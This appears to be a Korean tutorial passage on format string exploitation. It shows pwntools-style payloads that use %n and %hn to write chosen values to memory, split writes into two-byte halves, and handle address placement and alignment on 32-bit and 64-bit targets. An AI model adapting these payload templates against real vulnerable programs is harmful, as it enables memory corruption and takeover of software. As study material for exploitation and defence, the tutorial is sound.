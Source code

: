 ```python
payload += p32(val)
payload += '%{}c'.format(0x77778888 - 4)
payload += '%7$n'
```

0x77778888은 십진수로 나타내면 약 20억으로, 20억이 넘는 문자들을 출력해야 원하는 동작을 실행할 수 있는데, 이는 시간이 매우 오래 걸려 불가능하다. 따라서 이런 경우에는 `%hn`**을 이용해 값을 두 번에 걸쳐서 나누어 담아야** 한다. 

32 bit machine 환경이라 가정했을 때, p32(val)에는 0x8888을, p32(val + 2)에는 0x7777을 저장해야한다.

```python
payload = p32(val) # off 7
payload += p32(val + 2) # off 8
payload += '%{}c'.format(0x8888 - 8)
payload += '%7$hn'
payload += '%{}c'.format(0x10000 + 0x7777 - 0x8888)
payload += '%8$hn'
```

- `'%{}c'.format(0x8888 - 8)` : 앞에 작성한 두 주소 `val`, `val + 2`의 길이 만큼을 빼주어야 정확히 `0x8888`의 값이 메모리에 들어간다.
- `'%[]c'.format(0x10000 + 0x7777 - 0x8888)` : 앞에 작성한 0x8888 byte만큼을 빼주고 0x7777 byte만큼을 출력해야 val에 0x7777을 입력할 수 있는데, 0x8888이 0x7777보다 크므로 대신 **0x17777만큼을 출력**한다. → **2 byte만큼 값이 잘리므로 0x7777만큼의 값만이 메모리에 들어간다.**

### Format string에서 주소의 위치, alignment

**32 bit machine**을 exploit할 때에는 **format string에 주소를 제일 앞**에 적고, 그 뒤에 `%p`, `%n`과 같은 format 문자들을 집어넣는다. 반면에, **64 bit machine**을 exploit할 때에는 **주소를 format string의 마지막에 적는다**. 

64 bit에서는 **주소가 3 byte**이기 때문에, 8 byte만큼 data를 넣었을 때 나머지 **5 byte가 NULL**이 된다. 이때 `printf`**는 NULL까지만 문자열을 출력**하기 때문에 주소를 맨 앞에 넣었을 경우 **주소 뒤에 있는 format 문자들이 실행되지 않는** 문제점이 생기게 된다. → 따라서 주소를 마지막에 적는다.

주소를 format string의 마지막에 넣더라도 **입력한 모든 값이 출력되지 않는다**는 사실은 변하지 않지만, 우리의 주 목적은 `%{}c`, `%hn`**과 같은 format 문자를 실행**하는 것이기 때문에 출력이 제대로 되지 않는 것은 **상관이 없다**.

**64 bit machine**을 exploit할 때에는 주소를 뒤에 적어주기 때문에 신경써줘야 할 점이 하나 더 있는데, 바로 **주소를 입력할 때 8 byte alignment를 지켜주는 것**이다.

```python
payload = ''
payload += '%{}c'.format(0xabcd)
payload += '%11$hn'
payload += '%{}c'.format(0x10000 + 0x4321 - 0xabcd)
payload += '%12$hn'
payload += '%{}c'.format(0x8765 - 0x4321)
payload += '%13$hn'
payload += 'A'
payload += p64(check)
payload += p64(check + 2)
payload += p64(check + 4)
```

위와 같이 payload를 작성한다고 했을 때, 주소 바로 앞의 ‘A’ 문자를 입력하지 않을 경우 주소가 **한 byte씩 밀려 엉뚱한 주소가 입력**되기 때문에 Segmentation fault가 발생하게 된다. 따라서 항상 **주소의 alignment를 지켜주기 위해 dummy 문자를 입력해야 하지는 않는지 확인**하자.
